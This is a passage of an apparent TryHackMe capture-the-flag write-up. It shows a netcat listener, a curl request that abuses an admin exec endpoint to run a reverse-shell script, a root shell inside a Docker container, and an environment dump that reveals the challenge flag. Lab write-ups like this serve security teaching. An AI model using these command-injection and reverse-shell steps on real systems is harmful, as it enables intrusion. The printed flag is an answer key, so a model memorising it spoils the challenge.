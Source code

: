 `nc -nlvp 11445`

```bash
listening on [any] 11445 ...
```

`curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=python3%20/tmp/reversepython.py'`

```bash
listening on [any] 11445 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.223.218] 43520
root@02e849f307cc:/# python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
root@02e849f307cc:/# export TERM=xterm
export TERM=xterm
root@02e849f307cc:/# whoami
whoami
root
root@02e849f307cc:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@02e849f307cc:/# pwd
pwd
/
root@02e849f307cc:/# 
```

> **Escape for Docker Container Phase**
> 

**For more information:**

[Docker Breakout / Privilege Escalation | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#mounted-docker-socket-escape)

```bash
root@02e849f307cc:/# ls -lsa /app

total 14672
    4 drwxr-xr-x 1 root root     4096 May  8 12:25 .
    4 drwxr-xr-x 1 root root     4096 May  8 12:25 ..
    4 drwxr-xr-x 8 root root     4096 May  8 12:20 .git
    4 -rw-r--r-- 1 root root      435 May  8 12:20 .gitignore
    4 -rw-r--r-- 1 root root      381 May  8 12:20 Dockerfile
    4 -rw-r--r-- 1 root root       58 May  8 12:20 README.md
    4 -rw-r--r-- 1 root root      809 May  8 12:20 build.gradle.kts
    4 -rw-r--r-- 1 root root      602 May  8 12:20 docker-compose.yml
    4 drwxr-xr-x 3 root root     4096 May  8 12:20 gradle
    4 -rw-r--r-- 1 root root       92 May  8 12:20 gradle.properties
    8 -rwxr-xr-x 1 root root     8070 May  8 12:20 gradlew
    4 -rw-r--r-- 1 root root     2674 May  8 12:20 gradlew.bat
14612 -rw-r--r-- 1 root root 14959809 May  8 12:24 ktor-docker-sample.jar
    4 -rw-r--r-- 1 root root       30 May  8 12:20 settings.gradle.kts
    4 drwxr-xr-x 4 root root     4096 May  8 12:20 src
    
root@02e849f307cc:/# env
env
HOSTNAME=02e849f307cc
JAVA_HOME=/usr/local/openjdk-11
PWD=/
CTF_USERNAME=stefan1197
HOME=/root
LANG=C.UTF-8
CTF_DOCKER_FLAG=THM{342878cd14051bd787352ee73c75381b1803491e4e5ac729a91a03e3c889c2bf}
```